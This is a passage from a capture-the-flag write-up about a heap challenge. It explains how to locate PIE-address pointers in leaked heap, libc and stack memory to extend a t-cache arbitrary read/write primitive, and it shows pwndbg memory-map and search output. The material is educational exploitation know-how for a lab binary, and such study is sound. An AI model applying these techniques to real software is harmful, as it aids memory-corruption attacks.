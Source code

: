 A more future-proof method for `arbitrary r/w` is thereby needed, and thinking back to the `reverse engineering` section, `&garbage_truck` might just be the perfect candidate!

But the player only has a `Heap`, `Libc` and `LD` leak... Unless??

As the player already has an `arbitrary read` and `arbitrary write` primitive via the `t-cache`, it's simply a matter of finding a pointer (in any of the leaks the player has) which points to a `PIE` address. And finding some are straight forward.



Simply searching for the first `4 bytes` of the `base address` shows plenty of pointers to random `PIE addresses`: 

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x558518ffa000     0x558518ffb000 r--p     1000      0 /chal/garbage-is-easy/chal
    0x558518ffb000     0x558518ffc000 r-xp     1000   1000 /chal/garbage-is-easy/chal
    0x558518ffc000     0x558518ffe000 r--p     2000   2000 /chal/garbage-is-easy/chal
    0x558518ffe000     0x558518fff000 r--p     1000   3000 /chal/garbage-is-easy/chal
    0x558518fff000     0x558519000000 rw-p     1000   4000 /chal/garbage-is-easy/chal
    0x55851a215000     0x55851a258000 rw-p    43000      0 [heap]
    0x7f68c174d000     0x7f68c1750000 rw-p     3000      0 [anon_7f68c174d]
    0x7f68c1750000     0x7f68c1779000 r--p    29000      0 /chal/garbage-is-easy/glibc/libc.so.6
    0x7f68c1779000     0x7f68c18c3000 r-xp   14a000  29000 /chal/garbage-is-easy/glibc/libc.so.6
    0x7f68c18c3000     0x7f68c1918000 r--p    55000 173000 /chal/garbage-is-easy/glibc/libc.so.6
    0x7f68c1918000     0x7f68c191c000 r--p     4000 1c7000 /chal/garbage-is-easy/glibc/libc.so.6
    0x7f68c191c000     0x7f68c191e000 rw-p     2000 1cb000 /chal/garbage-is-easy/glibc/libc.so.6
    0x7f68c191e000     0x7f68c192d000 rw-p     f000      0 [anon_7f68c191e]
    0x7f68c192d000     0x7f68c192e000 r--p     1000      0 /chal/garbage-is-easy/glibc/ld.so
    0x7f68c192e000     0x7f68c1953000 r-xp    25000   1000 /chal/garbage-is-easy/glibc/ld.so
    0x7f68c1953000     0x7f68c195d000 r--p     a000  26000 /chal/garbage-is-easy/glibc/ld.so
    0x7f68c195e000     0x7f68c1960000 r--p     2000  30000 /chal/garbage-is-easy/glibc/ld.so
    0x7f68c1960000     0x7f68c1962000 rw-p     2000  32000 /chal/garbage-is-easy/glibc/ld.so
    0x7ffc91893000     0x7ffc918b4000 rw-p    21000      0 [stack]
    0x7ffc919d8000     0x7ffc919dc000 r--p     4000      0 [vvar]
    0x7ffc919dc000     0x7ffc919de000 r-xp     2000      0 [vdso]
pwndbg> search -4 0x558518ff
Searching for value: b'\xff\x18\x85U'
chal            0x558518ffed6a 0xb1700000558518ff
[...]
chal            0x558518fff00a 0x558518ff
libc.so.6       0x7f68c191be2a 0xc7e00000558518ff
[...]
libc.so.6       0x7f68c191bf4a 0x36800000558518ff
[anon_7f68c191e] 0x7f68c192b712 0x1a750000558518ff
[...]
[anon_7f68c191e] 0x7f68c192b742 0x69170000558518ff
[anon_7f68c191e] 0x7f68c192b752 0x558518ff
ld.so           0x7f68c195eaa2 0xf0c00000558518ff
[...]
[stack]         0x7ffc918b0292 0x8a400000558518ff
[...]
[stack]         0x7ffc918b2d62 0xb0000558518ff
```
